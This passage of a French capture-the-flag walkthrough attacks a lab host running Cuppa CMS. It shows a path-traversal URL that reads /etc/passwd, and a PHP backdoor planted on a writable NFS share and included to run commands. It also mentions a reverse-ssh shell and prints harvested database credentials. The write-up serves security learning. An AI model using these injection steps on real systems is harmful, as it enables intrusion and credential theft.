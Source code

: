 Ainsi si on demande l'URL :  

```plain
http://192.168.101.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

On obtient la liste des utilisateurs dont voici deux lignes :  

```plain
david:x:1000:1000:david:/home/david:/bin/bash
rick:x:1004:1004::/home/rick:/bin/bash
```

L'inclusion distante semble échouer. Restriction dans la config PHP ? Filtrage du trafic sortant ?  

Peut importe, on a un partage NFS sur lequel on peut écrire et on sait que ça correspond au dossier */var/nfsshare*, on a donc y déposer notre backdoor PHP puis l'inclure :  

```plain
http://192.168.101.129/genevieve/cuppaCMS//alerts/alertConfigField.php?urlConfig=/var/nfsshare/test.php&cmd=id
```

On obtient notre exécution de commandes en tant que *uid=48(apache) gid=48(apache) groups=48(apache) context=system\_u:system\_r:httpd\_t:s0*.  

Une exécution de [reverse-ssh](https://github.com/Fahrj/reverse-ssh) plus tard, je fouille un peu dans les fichiers comme la Configuration du Cuppa :  

```php
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "bravery";
                public $user = "root";
                public $password = "r00tisawes0me";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "goodtech";
                public $secure_login_redirect = "doorshell.jpg";
        } 
?>
```

Mais dans les bases MySQL je ne trouve rien d'intéressant.  

Voici les fichiers appartenant aux utilisateurs mentionnés plus tôt :  

```plain
$ find / -user david -ls 2> /dev/null
628169    0 -rw-rw----   1 david    mail            0 Jun 10  2018 /var/spool/mail/david
51235890    4 -rw-r--r--   1 david    users          31 Dec 13 19:04 /var/nfsshare/test.php
51235889 3760 -rwxr-xr-x   1 david    users     3850240 Dec 13 19:07 /var/nfsshare/reverse-sshx64
628165    0 drwx------  14 david    david         279 Sep 29  2018 /home/david
1290460    0 drwxrwxrwx   2 david    smbgrp         62 Sep 28  2018 /samba/secured

$ find / -user rick -ls 2> /dev/null 
172662    0 -rw-rw----   1 rick     mail            0 Jul 10  2018 /var/spool/mail/rick
35281512    0 drwx------   3 rick     rick           78 Jul 10  2018 /home/rick
```
